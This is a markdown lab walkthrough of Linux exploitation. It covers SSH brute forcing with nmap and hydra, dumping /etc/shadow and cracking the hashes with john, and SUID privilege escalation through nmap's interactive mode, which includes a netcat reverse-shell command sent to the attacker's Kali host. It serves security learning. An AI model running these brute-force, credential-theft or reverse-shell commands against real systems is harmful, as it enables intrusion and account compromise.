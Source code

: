 #Linux Exploitation
```bash
nmap 2.0.0.22 target 1(metasploit)
```
- target 1 - port 22 ssh open

Lets try brutforce login
```bash
nmap 2.0.0.22 -p 22 --script ssh-brute
```
- After sucessfull passowrd cracking login with the crdentials
```bash
ssh administrator@2.0.0.22
whoami
id if uid=1001 - secondory regular user so 1000 is regular user
cat /etc/password - you can find the other users
```

Horizontal escalation
-------------------------------
since we know the user name lets try the password attack
```bash
hydra -l marlinspike -P /usr/share/wordlists/john/lst 2.0.0.22 ssh -e nsr -t 4
```

- anothe way to know the password is
```bash
cat /etc/shadow - contails passowrd hashes
```
- copy the hashes in a file in kali and try john
```bash
nano hash.txt
john hash.txt
```
check weather the /etc/password and /etc/shadow are having write permissions

-To find the suid files
```bash
find / -perm -u=s -type f 2>/dev/null
find / -perm -4000 -type f 2>/dev/null
```
- if the linux machine is having **nmap** installe in suid file then we can use it to escalate the privileges
```bash
nmap --interactive
nmap> ! cat /etc/shadow
nmap> ! cat /etc/passwd
nmap> ! nc <kali IP> 1234 -e /bin/bash

```
- In kali machine run a netcat listener
```bash
nc -lvp 1234    
```
- GTFOBINS is helpful to find the suid files and how to use them to escalate the privileges
Gtfobins link: https://gtfobins.github.io/

- if there is any error while connecting try this 
```bash
kali-tweaks
```
- This box will opens now select **Hardining** then enable **SSH CLIENT** then click on **Apply**  button 

<img src="image-1.png" alt="alt text" width="400"/>
<img src="image-2.png" alt="alt text" width="400"/>